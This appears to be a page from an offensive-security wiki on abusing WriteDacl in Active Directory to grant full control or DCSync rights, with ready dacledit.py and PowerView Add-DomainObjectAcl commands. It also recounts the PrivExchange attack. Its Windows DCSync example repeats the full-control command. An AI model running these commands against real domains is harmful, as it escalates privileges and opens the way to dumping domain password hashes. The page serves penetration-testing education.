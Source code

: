 # Grant rights

This abuse can be carried out when controlling an object that has `WriteDacl` over another object.

The attacker can write a new ACE to the target object’s DACL (Discretionary Access Control List). This can give the attacker full control of the target object.&#x20;

Instead of giving full control, the same process can be applied to allow an object to [DCSync](../credentials/dumping/dcsync.md) by adding two ACEs with specific Extended Rights (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Giving full control leads to the same thingsince `GenericAll` includes all `ExtendedRights`, hence the two extended rights needed for DCSync to work.

Story time, Exchange Servers used to have `WriteDacl` over domain objects, allowing attackers to conduct a [PrivExchange](../exchange-services/privexchange.md) attack where control would be gained over an Exchange Server which would then be used to grant an attacker-controlled object DCSync privileges to the domain.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

:warning: _At the time of writing, the_ [_Pull Request (#1291)_](https://github.com/SecureAuthCorp/impacket/pull/1291) _is still pending._

```bash
# Give full control
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'
```

For a DCSync granting attack, instead of using dacledit, [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) has the ability to operate that abuse with the `--escalate-user` option (see [this](https://medium.com/@arkanoidctf/hackthebox-writeup-forest-4db0de793f96)).
{% endtab %}

{% tab title="Windows" %}
From a Windows system, this can be achieved with [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Give full control
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```

{% hint style="info" %}
A few tests showed the `Add-DomainObjectAcl` command needed to be run with the `-Credential` and `-Domain` options in order to work
{% endhint %}
{% endtab %}
{% endtabs %}

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync" %}
